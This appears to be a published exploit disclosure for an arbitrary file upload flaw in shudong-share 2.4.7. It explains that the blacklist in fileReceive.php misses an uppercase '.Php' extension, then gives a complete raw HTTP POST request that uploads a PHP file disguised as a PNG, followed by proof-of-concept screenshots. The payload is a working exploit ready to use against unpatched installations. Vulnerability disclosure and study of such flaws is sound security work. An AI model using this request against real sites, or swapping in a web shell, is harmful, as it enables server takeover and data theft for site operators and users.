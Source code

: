 Exploit Title: shudong-share Any File Upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://github.com/HFO4/shudong-share

Software Link: https://github.com/HFO4/shudong-share

CMSName: shudong-share

Tested on: Windows, Nginx ,Mysql

Description

The reason for the vulnerability of arbitrary file upload is that the website application allows users to add any type of upload file extension in the management background, bypassing the whitelist restriction code. In addition, the fileReceiver. php code also performs a second blacklist check but can be bypassed using uppercase Php, resulting in arbitrary file upload.

    Payload used:
POST /shudong-share-2.4.7/shudong-share-2.4.7/includes/fileReceive.php HTTP/1.1
Host: 192.168.101.142
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzhrFFsicJe3Nlb5g
Content-Length: 195

------WebKitFormBoundaryzhrFFsicJe3Nlb5g
Content-Disposition: form-data; name="file";filename="1.Php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryzhrFFsicJe3Nlb5g--

Proof of Concept
![image](https://github.com/user-attachments/assets/d3deec05-98f3-490d-bea2-cc0680f2bf3c)
![image](https://github.com/user-attachments/assets/17d1b63d-767a-426f-b5f7-4271bd1f6ff5)
![image](https://github.com/user-attachments/assets/a6322441-0c5e-4e79-aea5-0b7091bf867a)
![image](https://github.com/user-attachments/assets/ea0d0976-2b1a-4ec6-a80f-9bf44fbb188d)


